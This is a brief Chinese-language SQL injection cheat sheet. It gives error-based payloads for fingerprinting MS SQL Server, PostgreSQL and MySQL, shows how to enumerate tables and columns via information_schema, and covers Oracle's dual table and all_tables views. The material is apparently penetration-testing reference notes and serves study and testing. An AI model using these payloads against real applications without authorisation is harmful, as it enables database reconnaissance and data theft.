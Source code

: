 #### 有回显的注入，数据库类型快速确定：

不同数据库报错函数：

##### Microsoft：

```
SELECT 'foo' WHERE 1 = (SELECT @@version)

```

##### PostgreSQL：

```
and 1=CAST((SELECT version()) AS int)

```

##### MySQL：

```
SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT @@version)))

```

mysql常用报错注入函数：
1.  除了Oracle数据库之外，其他数据库都是通过查询`information_schema.tables`列出数据库中的表： 
```
SELECT * FROM information_schema.tables

```

查询`information_schema.columns`列出各个表中的列：

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'

```

##### **Oracle 数据库比较特殊，没有报错函数，但是有明显的dual特征:**

```
SELECT '' FROM dual

```
1.  Oracle数据库查询的每一步都必须指定表名。而Oracle有一个内置表：`dual`，如果没有表名就用此表名代替。<br/> 如：`UNION SELECT '1'，'2' FROM dual`才能查看注入点。而不是`union select '1','2'`。 1.  在 Oracle 上，您可以通过略有不同的查询来获取相同的信息。<br/> 您可以通过查询列出表`all_tables`: 
```
SELECT * FROM all_tables

```

您可以通过查询列出列`all_tab_columns`:

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'

```
